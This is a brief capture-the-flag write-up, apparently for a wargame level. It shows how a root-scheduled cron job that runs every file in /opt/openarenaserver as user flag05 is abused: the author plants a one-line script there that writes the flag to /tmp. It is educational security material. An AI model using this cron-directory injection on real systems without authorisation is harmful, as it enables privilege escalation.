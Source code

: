 ## Shell command injection with a crontab

First of all, I saw a message when I started the VM : "You have a new mail"

Then, I checked the content of this one with ``cat /var/mail/level05`` it gave me this result :

``*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05``

After, I opened the ```/usr/sbin/openarenaserver``` file and I got :
````bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
````

In ``/opt/openarenaserver/`` I created a file named "getflag" and it content was : ```getflag > /tmp/flag ```

After waiting 2 minutes for the crontab, I just ``cat /tmp/flag`` and I got my flag :)
